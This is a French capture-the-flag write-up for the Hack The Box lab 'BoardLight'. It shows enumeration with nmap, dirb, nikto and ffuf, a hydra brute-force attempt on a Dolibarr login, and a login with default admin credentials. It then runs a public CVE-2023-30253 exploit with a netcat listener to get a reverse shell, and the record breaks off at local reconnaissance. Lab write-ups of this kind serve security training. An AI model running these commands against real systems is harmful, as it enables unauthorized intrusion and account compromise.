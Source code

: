 Tout d'abord on commence par un scan.
```bash
nmap -sV -v 10.129.52.52
```

On voit qu'il y a deux ports d'ouverts:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41
Service Info: Host: board.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

La version d'Apache ne semble pas avoir de vulnérabilités connues.
Puisqu'il y a un serveur Apache, on scanne également les répertoires:
```bash
dirb http://10.129.52.52/
```
La page `/server-status` semble intéressant, mais nous n'y avons pas accès.
En accédant à http://10.129.52.52/, on se rend compte qu'il s'agit d'un site php.
Plusieurs liens (comme le login) ne semblent pas fonctionner.

Aucune requête POST n'apparaît dans sur le réseau lors de l'envoi d'un formulaire.
En regardant plus loin, voici un example de form:
```html
<form action="">
....
</form>
```
On constate que le champ `action` est vide.

Si on tente d'accéder à une page qui n'existe pas, par exemple `/login.php`, on obtient `File not found.`
On tente donc de faire du directory traversal pour afficher `/etc/passwd` mais sans succès, l'url est corrigée et on obtient `The requested URL was not found on this server.`.

Aucun cookie n'est visible.
La version de jQuery, `3.4.1` ne semble pas avoir de faille connues.

En cherchant .php dans le code source de la page un fichier `portfolio.php` qui est commenté.
Malheureusement accéder au fichier donne un `File not found.`

On continue l'énumération avec nikto mais rien de bien intéressant.
```bash
nikto -h http://10.129.52.52/

+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.
+ 8074 requests: 0 error(s) and 4 item(s) reported on remote host
```

En désespoir de cause, on tente l'énumération des sous-domaines avec gobuster.
D'abord, il faut télécharger les listes de sous-domaines:
```bash
wget -c https://github.com/danielmiessler/SecLists/archive/master.zip -O SecList.zip \
  && unzip SecList.zip \
  && rm -f SecList.zip
```

Puis, on lance l'énumération avec ffuf:
```bash
ffuf -w ./SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -mc 200 -fs 15949 -o ffuf_output.json -of json
```
On obtient le résultat suivant:

```json
{
  "commandline": "ffuf -w ./SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u http://board.htb -H Host: FUZZ.board.htb -mc 200 -fs 15949 -o ffuf_output.txt -of json",
  "time": "2024-07-26T17:05:30-05:00",
  "results": [
    {
      "input": {
        "FFUFHASH": "6790a48",
        "FUZZ": "crm"
      },
      "position": 72,
      "status": 200,
      "length": 6360,
      "words": 397,
      "lines": 150,
      "content-type": "text/html; charset=UTF-8",
      "redirectlocation": "",
      "scraper": {},
      "duration": 93789337,
      "resultfile": "",
      "url": "http://board.htb",
      "host": "crm.board.htb"
    }
  ],
  ....
}
```

On a donc trouvé l'hôte `crm.board.htb`.
Lorsqu'on accède à la page, on voit qu'il s'agit d'une page de login pour le CRM `Dolibarr 17.0.0`
En regardant sur `exploit-db.com` on trouve que la version `17.0.1` est vulnérable à une attaque XSS. Peut-être utile pour plus tard.

Avec ces informations en tête, on va tenter une attaque sur le login avec hydra.
Pour procéder, on va avoir besoin d'un example de requête de login. Nous allons donc l'intercepter avec burp.
```bash
token=f2d2a913edc0137d1066cb9907b3f382&actionlogin=login&loginfunction=loginfunction&backtopage=&tz=-6&tz_string=America%2FChicago&dst_observed=1&dst_first=2024-03-10T01%3A59%3A00Z&dst_second=2024-11-3T01%3A59%3A00Z&screenwidth=2048&screenheight=861&dol_hide_topmenu=&dol_hide_leftmenu=&dol_optimize_smallscreen=&dol_no_mouse_hover=&dol_use_jmobile=&username=admin&password=test
```
On reçoit comme réponse `Bad value for login or password`.

Une fois ces informations en main, on lance hydra:
```bash
sudo hydra -v -V -d -l admin -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt -t 16 -o hydra_results.txt http-post-form://crm.board.htb/index.php?mainmenu=home:"token=f2d2a913edc0137d1066cb9907b3f382&actionlogin=login&loginfunction=loginfunction&backtopage=&tz=-6&tz_string=America%2FChicago&dst_observed=1&dst_first=2024-03-10T01%3A59%3A00Z&dst_second=2024-11-03T01%3A59%3A00Z&screenwidth=2048&screenheight=861&dol_hide_topmenu=&dol_hide_leftmenu=&dol_optimize_smallscreen=&dol_no_mouse_hover=&dol_use_jmobile=&username=^USER^&password=^PASS^:F=Bad"
```
Mais on se rend vite compte qu'un cookie unique est généré comme protection contre le brute-force pour chaque session car on obtient la réponse: `Security token has expired, so action has been canceled. Please try again.`

On va aussi scanner les répertoires du nouveau sous-domaine avec dirb:
```bash
dirb http://crm.board.htb/
```

On va trouver quelques fichiers intéressants, notamment:

http://crm.board.htb/conf
```html
Forbidden

You don't have permission to access this resource.
```

http://crm.board.htb/api/index.php
```bash
Module Api must be enabled.

To activate modules, go on setup Area (Home->Setup->Modules).
```

http://crm.board.htb/install/phpinfo.php
```bash
The application tried to self-upgrade, but the install/upgrade pages have been disabled for security (by the existence of a lock file install.lock in the dolibarr documents directory).
If an upgrade is in progress, please wait. If not, click on the following link. If you always see this same page, you must remove/rename the file install.lock in the documents directory.
Click here to go to your application
```

Et la page dans le répertoire `public` nous redirige vers une page d'erreur 404 et les autres pages demandent un login.

En fouillant un peu sur le web, on trouve le CVE suivant pour obtenir un reverse shell, mais il nécessite d'avoir les credentials:
```bash
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253
```
À court d'idée, on tente de se logger avec des credentials par défaut qui sont populaire. On fini par trouver `admin`  `admin` comme login.

Maintenant qu'on a les credentials, ont peut exécuter le CVE pour obtenir un reverse shell.
Pour se faire, on démarre d'abord netcat:
```bash
nc -lvnp 9001
```

Puis, on lance le script:
```bash
python3 exploit.py http://crm.board.htb/ admin admin 10.10.14.252 9001
```

Une connexion est établie avec netcat:
```bash
listening on [any] 9001 ...
connect to [10.10.14.252] from (UNKNOWN) [10.129.52.52] 43820
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```

On fait un peu de reconnaissance:
```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls
ls
index.php
styles.css.php
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cd ..
cd ..
www-data@boardlight:~/html/crm.board.htb/htdocs/public$ cd /home
cd /home
www-data@boardlight:/home$ ls
ls
larissa
www-data@boardlight:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root    root    4096 May 17 01:04 .
drwxr-xr-x 19 root    root    4096 May 17 01:04 ..
drwxr-x--- 15 larissa larissa 4096 May 17 01:04 larissa
```
Il faut donc probablement trouver un moyen de devenir `larissa`.

On va pousser la reconnaissance plus loin avec linPEAS.
